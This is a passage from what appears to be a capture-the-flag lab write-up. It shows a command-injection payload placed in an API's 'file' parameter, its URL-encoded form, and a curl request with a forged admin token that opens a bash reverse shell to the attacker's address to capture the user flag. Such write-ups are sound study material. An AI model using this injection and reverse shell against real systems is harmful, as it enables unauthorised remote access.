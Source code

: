 Voila! We did it! Let’s try to obtain a reverse shell with the payload: `;bash -c "bash -i >& /dev/tcp/10.10.14.13/443 0>&1"`

url encoded: `%3Bbash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.13%2F443%200%3E%261%22`

```jsx
curl -H 'auth-token: eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJfaWQiOiI2MmUxNmZlNGNlNmQ2NTA0NWEyZmVkZjYiLCJuYW1lIjoidGhlYWRtaW4iLCJlbWFpbCI6ImFsbUBhbG0uY29tIiwiaWF0IjoxNjU4OTQxNjc4fQ.U4MB0eP5yc3eXWzseM_7dP2jf0JZP7RovnoMx9jv4mM' http://10.10.11.120/api/logs?file=%3Bbash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F10.10.14.13%2F443%200%3E%261%22
```

<figure><img src="../../.gitbook/assets/secret27.png" alt=""><figcaption></figcaption></figure>

Yeah!

<figure><img src="../../.gitbook/assets/secret28.png" alt=""><figcaption></figcaption></figure>

And that’s how we obtain the user flag 🙂

Let’s go for the root flag.

